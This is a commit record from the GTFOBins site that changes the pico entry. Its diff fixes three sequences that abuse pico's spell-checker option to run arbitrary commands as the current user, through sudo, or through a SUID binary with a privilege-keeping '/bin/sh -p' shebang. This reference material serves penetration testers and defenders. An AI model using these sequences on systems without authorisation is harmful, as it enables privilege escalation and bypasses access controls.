

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/pico.md, in a window 1280 px wide. Shown: the part 261-1152 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix pico execution functions as they require a file to work on

```diff
--- a/_gtfobins/pico.md
+++ b/_gtfobins/pico.md
@@ -7,7 +7,7 @@ functions:
         TF=$(mktemp)
         echo "$COMMAND" > $TF
         chmod +x $TF
-        pico -s $TF
+        pico -s $TF /etc/hosts
         ^T
   sudo-enabled:
     - description: After running this exit the editor to see the command output.
@@ -16,7 +16,7 @@ functions:
         TF=$(mktemp)
         echo "$COMMAND" > $TF
         chmod +x $TF
-        sudo pico -s $TF
+        sudo pico -s $TF /etc/hosts
         ^T
   suid-enabled:
     - description: After running this exit the editor to see the command output.
@@ -25,7 +25,7 @@ functions:
         TF=$(mktemp)
         echo $'#!/bin/sh -p\n'"$COMMAND" > $TF
         chmod +x $TF
-        ./pico -s $TF
+        ./pico -s $TF /etc/hosts
         ^T
   file-read:
     - code: |
```
